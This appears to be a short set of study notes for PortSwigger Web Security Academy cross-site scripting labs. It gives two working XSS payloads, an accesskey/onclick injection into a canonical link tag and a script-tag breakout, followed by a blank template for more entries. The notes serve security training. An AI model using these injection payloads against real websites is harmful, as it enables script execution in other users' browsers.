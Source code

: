 ## XSS with Access key (Canonical Link tag)

Chapter: 
https://portswigger.net/web-security/cross-site-scripting/contexts

**Lab:** 
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

**Limitation:** Only on Chrome

**Solution:** 
https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
Press Alt+x on keyboard to get alert

## XSS within <script>

**Chapter:** 
https://portswigger.net/web-security/cross-site-scripting/contexts
**Lab:** 
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped
**Limitations:** NA
**solution:** 
</script><script>alert(1)</script>



Template:
## <topic>

**Chapter:**
  
**Lab:**
  
**Limitations:** NA

  **solution:** 
